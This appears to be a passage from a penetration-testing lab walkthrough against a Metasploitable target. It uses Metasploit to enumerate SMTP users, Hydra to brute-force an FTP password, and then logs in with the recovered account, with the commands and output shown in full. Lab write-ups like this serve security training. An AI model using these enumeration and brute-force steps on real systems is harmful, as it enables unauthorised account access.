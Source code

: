 ```bash
   RHOSTS                                                                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      25                                                             yes       The target port (TCP)
   THREADS    1                                                              yes       The number of concurrent threads (max one per host)
   UNIXONLY   true                                                           yes       Skip Microsoft bannered servers when testing unix users
   USER_FILE  /usr/share/metasploit-framework/data/wordlists/unix_users.txt  yes       The file that contains a list of probable users accounts.

msf6 auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 10.4.23.234
RHOSTS => 10.4.23.234
msf6 auxiliary(scanner/smtp/smtp_enum) > run

[*] 10.4.23.234:25        - 10.4.23.234:25 Banner: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
[+] 10.4.23.234:25        - 10.4.23.234:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
[*] 10.4.23.234:25        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

service user is not a service account on linux by default.



**bruteforce ftp passwords**

```bash
root@attackdefense:~# hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.4.23.234 ftp
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-13 22:11:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 168 login tries (l:1/p:168), ~11 tries per task
[DATA] attacking ftp://10.4.23.234:21/
[21][ftp] host: 10.4.23.234   login: service   password: service
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-13 22:11:30

```



**login in with service account**

```bash
root@attackdefense:~# ftp 10.4.23.234                                                                                                                                                       
Connected to 10.4.23.234.                                                                                                                                                                   
220 (vsFTPd 2.3.4)
Name (10.4.23.234:root): service
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||64673|).
ftp: Can't connect to `10.4.23.234:64673': Connection refused
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
226 Directory send OK.
```